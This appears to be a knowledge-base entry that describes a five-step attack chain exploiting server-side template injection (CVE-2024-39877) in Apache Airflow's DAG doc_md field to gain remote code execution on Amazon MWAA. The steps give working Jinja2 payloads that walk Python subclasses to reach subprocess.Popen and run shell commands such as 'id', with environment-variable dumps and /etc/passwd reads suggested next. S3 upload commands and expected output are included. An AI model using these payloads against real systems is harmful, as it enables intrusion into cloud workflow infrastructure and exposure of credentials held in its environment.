

---
tags:
  - ssti
  - rce
  - apache-airflow
  - mwaa
  - aws
  - jinja2
  - python
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/jinja2-simple-arithmetic-test]]'
  - '[[commands/jinja2-enumerate-subclasses]]'
  - '[[commands/jinja2-verify-class-name]]'
  - '[[commands/jinja2-execute-popen-command]]'
  - '[[commands/id-shell]]'
  - '[[commands/env-shell]]'
  - '[[commands/cat-etc-passwd]]'
verified: false
platforms:
  - AWS
  - Cloud
  - Linux
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Confirm-SSTI-Vulnerability-in-Airflow-DAG]]'
  - '[[procedures/Enumerate-Subclasses-for-Gadget-Chain-Discovery]]'
  - '[[procedures/Analyze-Output-to-Find-Popen-Class-Index]]'
  - '[[procedures/Verify-Popen-Class-at-Identified-Index]]'
  - '[[procedures/Execute-Arbitrary-Command-via-Popen-RCE]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
updated_at: '2025-12-14T17:23:37.059Z'
description: >-
  Multi-stage exploitation of Server-Side Template Injection in Apache Airflow's
  DAG doc_md field to achieve remote code execution on Amazon Managed Workflows
  for Apache Airflow (MWAA) infrastructure.
skill_level: intermediate
impact_level: high
id: e56c945f-7aea-45c5-80f6-692e11c5afde
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
---
# SSTI in Apache Airflow DAG doc_md Leading to RCE in Amazon MWAA

Multi-stage attack chain demonstrating exploitation of CVE-2024-39877 in Apache Airflow 2.9.2 within Amazon MWAA, using SSTI in DAG doc_md fields to achieve arbitrary command execution on the MWAA worker nodes.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses Airflow UI and S3 upload)

### Target Environment

- Amazon MWAA environment running Apache Airflow 2.9.2 (vulnerable to CVE-2024-39877)
- Access to S3 bucket for DAG uploads
- Airflow UI access for viewing rendered doc_md

### Initial Access Requirements

- Authenticated user with write permissions to the MWAA-associated S3 bucket
- Network access to AWS console or API for S3 uploads
- No prior system access needed beyond DAG upload permissions

## Detailed Attack Procedures

### Step 1: Confirm SSTI Vulnerability
procedure: [[procedures/Confirm-SSTI-Vulnerability-in-Airflow-DAG]]

**Objective**: Verify if the Airflow environment is vulnerable to SSTI by uploading a test DAG with a simple Jinja2 expression and checking rendering in the UI.

**Instructions**: Create a Python DAG file named `test_1.py` with a simple Jinja2 template in the `doc_md` field. Upload it to the S3 bucket linked to the MWAA environment. Trigger the DAG execution and check the Grid view in the Airflow UI for rendered output.

Use the following Jinja2 payload in the doc_md: [[commands/jinja2-simple-arithmetic-test]]

```python
# test_1.py example snippet
doc_md = "{{3*3}}"
```

Upload via AWS CLI or console:

```bash
aws s3 cp test_1.py s3://your-mwaa-dags-bucket/
```

Refresh the Airflow UI and view the DAG's documentation.

**Expected Output**: The doc_md renders as '9' instead of the literal "{{3*3}}", confirming SSTI.

**Success Indicators**:
- Template expression evaluates and renders numerically in UI
- No errors in DAG parsing, but dynamic rendering observed

### Step 2: Enumerate Subclasses for Gadget Chain
procedure: [[procedures/Enumerate-Subclasses-for-Gadget-Chain-Discovery]]

**Objective**: List available subclasses in the Python environment to identify exploitable classes like subprocess.Popen for RCE.

**Instructions**: Create `test_2.py` with a Jinja2 expression to enumerate subclasses. Upload to S3, trigger execution, and view the output in the Airflow UI's doc_md rendering.

Embed this payload in doc_md: [[commands/jinja2-enumerate-subclasses]]

```python
# test_2.py example snippet
doc_md = "{{ ''.__class__.__mro__[1].__subclasses__() }}"
```

Upload:

```bash
aws s3 cp test_2.py s3://your-mwaa-dags-bucket/
```

Check UI for the long list of class names outputted.

**Expected Output**: A comma-separated list of class names, including subprocess.Popen at some index (e.g., 292 or 309).

**Success Indicators**:
- Subclass list renders without errors
- subprocess.Popen appears in the output

### Step 3: Analyze Output to Find Popen Class Index
procedure: [[procedures/Analyze-Output-to-Find-Popen-Class-Index]]

**Objective**: Manually inspect the subclass list to determine the exact index of the subprocess.Popen class, accounting for environment variations.

**Instructions**: Copy the output from Step 2 into a text editor or script. Count the subclasses (using commas as delimiters) to locate 'subprocess.Popen'. No upload needed; this is analysis.

For example, search for "Popen" in the list and note its position (0-based index).

**Expected Output**: Identified index, e.g., 292 or 309.

**Success Indicators**:
- Precise index for Popen confirmed
- Ready for verification in next step

### Step 4: Verify Popen Class at Identified Index
procedure: [[procedures/Verify-Popen-Class-at-Identified-Index]]

**Objective**: Confirm the index points to subprocess.Popen by retrieving and rendering its class name.

**Instructions**: Create `test_3.py` using the index from Step 3. Upload to S3, trigger, and check UI.

Use payload with index (e.g., 292): [[commands/jinja2-verify-class-name]]

```python
# test_3.py example snippet
doc_md = "{{ ''.__class__.__mro__[1].__subclasses__()[292].__name__ }}"
```

Upload:

```bash
aws s3 cp test_3.py s3://your-mwaa-dags-bucket/
```

**Expected Output**: 'Popen' rendered in doc_md.

**Success Indicators**:
- Class name 'Popen' displayed
- Index validated for RCE use

### Step 5: Execute Arbitrary Command via Popen RCE
procedure: [[procedures/Execute-Arbitrary-Command-via-Popen-RCE]]

**Objective**: Achieve RCE by invoking subprocess.Popen with a shell command and capturing output.

**Instructions**: Create `test_4.py` with Popen invocation for a test command like 'id'. Upload, trigger, and view output.

Payload example with index 292: [[commands/jinja2-execute-popen-command]]

```python
# test_4.py example snippet
doc_md = "{{ ''.__class__.__mro__[1].__subclasses__()[292]('id', shell=True, stdout=-1).communicate() }}"
```

Upload:

```bash
aws s3 cp test_4.py s3://your-mwaa-dags-bucket/
```

For further commands, replace 'id' with [[commands/env-shell]] or [[commands/cat-etc-passwd]].

**Expected Output**: Output of the command, e.g., 'uid=1000(airflow) gid=1000(airflow) groups=1000(airflow)'.

**Success Indicators**:
- Command output rendered in UI
- Arbitrary shell execution confirmed

## Attack Chain Summary

### Key Achievements

1. Confirmed SSTI in Airflow 2.9.2 via simple template test
2. Discovered gadget chain using subclass enumeration
3. Achieved RCE with subprocess.Popen, executing commands like 'id' and 'env'

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Python]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-10-01T00:00:00Z*
